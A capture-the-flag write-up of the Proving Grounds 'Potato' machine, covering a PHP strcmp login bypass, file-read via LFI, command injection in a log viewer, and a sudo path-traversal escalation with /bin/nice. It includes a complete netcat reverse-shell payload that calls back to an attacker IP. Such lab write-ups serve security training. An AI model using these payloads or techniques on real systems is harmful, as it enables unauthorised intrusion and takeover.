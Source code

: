 ```yaml
---
title: Potato - Proving Grounds
date: 2022-07-23
excerpt: "Potato is an easy rated Proving Grounds Play machine that covers LFI and command injection."
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command Injection
  - LFI
  - Sudo 
ShowToc: true

---
```

Potato is an easy rated Proving Grounds Play machine that covers LFI and command injection.
<!--more-->
## NMAP

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking FTP first and then downloading both files.
`ftp 192.168.243.101 2112`

index.php.bak
```php
<?php                                                                                                                      
$pass= "potato"; //note Change this password regularly                                                       
if($_GET['login']==="1"){                                                                                             
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {              
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";                                                                                                                                                                 
    setcookie('pass', $pass, time() + 365*24*3600);                                                                   
  }else{                                                                                                              
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }                                                                                                                   
  exit();                                                                                                             
}                                       
?>                                                          
  <form action="index.php?login=1" method="POST">                                                                     
                <h1>Login</h1>                             
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>                               
                <label><b>Password:</b></label>                                                                       
                <input type="password" name="password" required>                                                      
                </br>                                                                                                 
                <input type="submit" id='submit' value='Login' >                                                      
  </form>                                                                                                             
</body>                                                    
</html>
```

the authentication uses `strcmp` which I think can be bypassed

Let's check the web app.

![](2022-07-19-09-18-30.png)

trying out `admin:potato` did not work. So I searched on how to bypass `strcmp` and found this article [doyler](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

adding `[]` to the password param worked and we are logged in

![](2022-07-19-09-21-13.png)

There is a ping function. So I checked that first and tried some basic command injections, but nothing worked. I tried to do some LFI in the `page` parameter as well but did not return anything.

I checked the logs function and it looks like it prints the contents of the chosen log. I checked burp and there is a `file` parameter. Tried LFI with `/etc/passwd` and it worked.

![](2022-07-19-09-24-25.png)

We got two users from the `/etc/passwd` file.

`webadmin`
`florianges`

I checked their `.ssh` folder for any sshkey but nothing. The webadmin user also has its password `webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash` So I cracked it

![](2022-07-19-09-27-05.png)

Tried ssh but did not work.

I tried to read `dashboard.php` and noticed that it is executing commands using `shell_exec`

![](2022-07-19-09-33-58.png)

I think this is executing `cat` against `logs/+whatever is in the file param` So maybe we can also chain another command after the `cat` execution. 

I tried `sleep 5` and I got a 5 second delay. so tried `whoami`

![](2022-07-19-09-36-55.png)

And we got command execution. 

Tried a netcat reverse shell and it worked. `file=;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.49.243+80+>/tmp/f` 

I ran `linpeas.sh` but nothing interesting. and then I remember we have creds for `webadmin` I tried to `su webadmin` and it worked. I added my sshkey to `webadmin's` ssh folder for a better shell.

First thing I tried is check my sudo rights as we have creds. `(ALL : ALL) /bin/nice /notes/*` Here we can se we can run the command `nice` against anything in the `/notes` directory. so I tried `sudo /bin/nice /notes/../../../../../usr/bin/whoami` and the output was `root` so it did run whoami as `root` as it only checks the initial `/notes` and does not care if I go back a directory. From here we can just run `/bin/bash`

![](2022-07-19-10-21-24.png)

And we are root!~

